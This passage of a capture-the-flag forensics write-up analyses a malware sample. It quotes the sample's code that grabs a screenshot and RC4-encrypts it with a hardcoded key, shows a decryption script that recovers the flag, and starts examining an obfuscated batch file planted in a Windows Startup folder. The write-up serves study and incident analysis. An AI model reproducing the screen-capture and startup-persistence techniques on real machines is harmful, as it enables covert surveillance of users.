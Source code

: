 From the `Malicious script`, we found the function used to encrypt the `jpg` file: 

```
 try:
        from PIL import ImageGrab
        from Crypto.Cipher import ARC4
        screenshot = ImageGrab.grab()
        screenshot_path = os.getenv('ProgramData') + r'\pay2winflag.jpg'
        screenshot.save(screenshot_path)

        with open(screenshot_path, 'rb') as f:
            image_data = f.read()

        key = b'tralalero_tralala'
        cipher = ARC4.new(key)
        encrypted_data = cipher.encrypt(image_data)

        encrypted_path = screenshot_path + '.enc'
        with open(encrypted_path, 'wb') as f:
            f.write(encrypted_data)
```

From the `Function`, the key used to encrypt the `pay2wubflag.jpg` file was could be seen:  `key = b'tralalero_tralala'` with the combination of `ARC4` cipher. We got the `pay2wubflag.jpg.enc` from the file and the `key`, so we could retrive the original `jpg` 

#### Retrieve Original File & Flag. 

Here I've construct a simple script to decrypt the file using the `key` and retrieve the original file, in the mean time located the `2nd part of the flag`

```
from Crypto.Cipher import ARC4
with open("pay2winflag.jpg.enc", "rb") as f:
    encrypted = f.read()
cipher = ARC4.new(b"tralalero_tralala")
decrypted = cipher.decrypt(encrypted)
with open("flag.jpg", "wb") as f:
    f.write(decrypted)
```

<img width="500" height="500" alt="image" src="https://github.com/user-attachments/assets/1a4a8f75-eaf2-42b2-a913-b73f6fa98ff2" />

### Obtained Flag 1st Part.

A bit lost on how to find the 1st part here, since there are not lead from previous finding, so i return back to analyze the artifacts. After a few minutes, I found another mysterious `.bat` file located in  `crustacean` user path which is `Users/crustacean/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup`: `WindowsSecure.bat`

#### Analyze "WindowsSecure.bat" file 

Using `strings` command on the `WindowsSecure.bat` file to view the contents.

```
@echo off
set cb=
set ts= 
set cv="
set ms=-
set gt=.
set ax=/
set nc=0
set bs=3
set tc=4
set ch=:
set wj=A
```